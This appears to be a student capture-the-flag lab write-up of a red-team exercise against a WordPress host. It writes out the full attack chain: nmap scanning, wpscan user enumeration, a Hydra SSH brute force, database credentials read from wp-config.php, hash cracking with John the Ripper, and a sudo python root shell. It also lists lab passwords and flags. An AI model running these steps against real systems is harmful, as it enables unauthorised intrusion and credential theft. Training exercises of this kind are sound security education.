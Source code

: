 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

The following services and OS data are revealed by the Nmap scan results for each machine:

$ nmap -A 192.168.1.0/24
- ![alt text](https://github.com/fpanes/Final-Project/blob/main/Images/Offensive/nmapscan.png)

This scan finds the following services as potential ports of entry:
- Target 1
  - Port 22/TCP Open SSH
  - Port 80/TCP Open HTTP
  - Port 111/TCP Open rcpbind
  - Port 139/TCP Open netbios-ssn
  - Port 445/TCP Open netbios-ssn

On each target, the following vulnerabilities were discovered:
- Target 1
  - Improper configured SSH
  - WordPress Enumation
  - Weak Password Implementation
  - There is no implementation of file security permission.
  - Use of weak password salted hashes
  - Python root escalation privileges

### Exploitation

The Red Team was successful in breaching 'Target 1' and obtaining the following sensitive information:
- Target 1
  - `flag1.txt`: b9bbcb33ellb80be759c4e844862482d
    - **Exploits Used**
      - WPScan is being used to count the number of users on the Target 1 WordPress site.
       - wpscan --url http://192.168.1.110 --enumerate u
       - ![alt text](https://github.com/fpanes/Final-Project/blob/main/Images/Offensive/wpscan.png)
 
    - Targeting User Michael
      - Executed Hydra Brute Force Attack
        - The following command was performed:
        - hydra -l michael -P /usr/share/wordlists/rockyou.txt 192.168.1.110 ssh
        - Password: Michael
        - ![alt text](https://github.com/fpanes/Final-Project/blob/main/Images/Offensive/bruteforcemike.png)

    - Capturing Flag 1: As Michael, I went through directories and files following an SSH Brute Force Attack.
      - Flag1 was discovered in the var/www/html folder at the root in service.html in an HTML remark below the footer.
      - Commands:
        - ssh michael@192.168.1.110
        - pw: michael
        - ![alt text](https://github.com/fpanes/Final-Project/blob/main/Images/Offensive/sshmikepass.png)
        - cd ../
        - cd /var/www/html
        - ls -l
        - nano service.html
        - ![alt text](https://github.com/fpanes/Final-Project/blob/main/Images/Offensive/flagone.png)

  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a3e581c
    - **Exploit Used**
      - Same exploit covered in flag1 to gain access
      - Commands:
        - ssh michael@192.168.1.110
        - pw: michael
        - cd ../
        - cd /var/www
        - find / i-name flag*
        - cat flag2.txt

  - `flag3` : afc01ab56b50591e7dccf93122770cd2
    - **Exploit Used**
      - Previous exploit covered in flag1 and flag2
      - Captured flag3 Accessing MySQL database
        - MySQL was used to examine the database after discovering wp-config.php and getting access to the database credentials as Michael.
        - the wp-config.php displayed DB_Password in plaintext

        - flag3 was found in wp_posts table in the wordpress database.
        - Commands:
          - Connected to mysql: -u root -p R@v3nSecurity
          - show databases;
          - use wordpress;
          - show tables;
          - select * from wp_posts;

  - `flag4` : 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - Use of weak password salted hashes and Python root escalation privileges
      - Captured flag4 by collecting user credentials from the database, running john the ripper to crack the password hash, then gaining root access using Python Escalation Privileges.
        - After gaining access to the database credentials as Michael through the sp-config.phpfile, the next step was to decrypt password hashes obtained from MySQL.
        - These user credentials are saved in the WordPress database's wp_users table.
        - The usernames and password hashes were recorded in a file named wp hashes.txt on the Kali computer.
        - Commands:
          - Connected to mysql: -u root -p R@v3nSecurity
          - SELECT ID, user_login, user_pass FROM wp_users;

        - When I exported the hashes, I stored them separately as stevenhash.txt and michaelhash.txt and cracked the hashes using John the Ripper.
          - Command:
            - john stevenhash.txt
            - john michaelhash.txt; the execution of the john the ripper continued; however, we already knew the password from the prior action.

          - After cracking Steven's password hash, the next step was to SSH as Steven. Then, as Steven, use Python to check for privilege and escalate to root.
          - Command:
            - ssh steven@192.168.1.110
            - pw:pink84
            - sudo -l
            - sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’
            - cd /root
            - ls
            - cat flag4.txt
